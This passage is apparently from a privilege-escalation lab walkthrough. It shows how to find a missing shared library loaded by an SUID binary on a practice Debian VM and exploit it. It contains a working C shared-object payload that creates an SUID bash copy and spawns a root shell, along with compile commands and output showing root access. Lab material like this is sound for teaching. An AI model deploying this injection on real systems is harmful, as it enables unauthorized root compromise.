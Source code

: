 3. In command line type: `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a `.so` file is missing from a writable directory.

~~~
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
~~~

**Exploitation**

Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c`
9. In command prompt type: `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

~~~
TCM@debian:~/.config$ gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
TCM@debian:~/.config$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~
